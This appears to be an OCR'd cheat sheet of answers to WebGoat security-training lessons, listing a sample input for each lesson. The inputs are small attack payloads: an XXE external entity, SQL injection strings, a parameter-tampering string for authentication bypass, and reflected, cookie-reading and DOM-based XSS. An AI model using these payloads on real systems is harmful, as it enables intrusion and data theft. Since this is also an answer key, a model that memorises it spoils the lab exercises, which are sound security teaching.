 # Cheatsheet

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```
## Modern REST framework

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
<comment><text>&xxe;</text></comment>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```
